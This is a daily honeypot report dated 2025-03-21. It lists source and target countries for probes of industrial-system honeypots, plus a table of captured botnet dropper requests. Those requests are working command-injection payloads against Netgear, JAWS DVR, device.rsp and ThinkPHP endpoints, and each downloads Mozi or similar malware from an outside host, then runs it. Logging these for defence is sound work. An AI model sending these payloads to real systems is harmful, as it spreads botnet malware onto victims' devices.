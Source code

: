 ```yaml
---
title: "Report: 2025-03-21 "
date: 2025-03-21
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-21
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Singapore          |
| US               | Dubai              |
| US               | Georgia            |
| CN               | Georgia            |
| US               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                              |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 119.186.218.56  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://119.186.218.56:40159/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                        |
| 45.230.66.17    | GET /shell?cd+/tmp;rm+-rf+*;wget+http://45.230.66.17:11483/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                         |
| 125.43.105.136  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://125.43.105.136:49451/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                        |
| 117.206.27.210  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.206.27.210:60389/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                        |
| 204.76.203.18   | GET /wget HTTP/1.1                                                                                                                                                                                                                                   |
| 103.203.72.37   | GET /shell?cd+/tmp;rm+-rf+*;wget+http://103.203.72.37:49222/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                        |
| 187.189.193.240 | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://157.245.200.182/Binarys/Nyx4r.arm;chmod+777+/tmp/Nyx4r.arm;sh+/tmp/Nyx4r.arm arm4.jaws HTTP/1.1                                                                                                             |
| 185.40.4.51     | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F156.253.230.23%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                          |
| 185.40.4.51     | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20meowarm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Fmeowarm7%3B%20chmod%20777%20%2A%3B%20.%2Fmeowarm7%20tbk  HTTP/1.1                                               |
| 220.179.1.88    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                        |
| 186.30.92.187   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                        |
| 118.40.165.223  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://185.225.75.8/bins/vcimanagement.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 84.195.192.75   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                        |
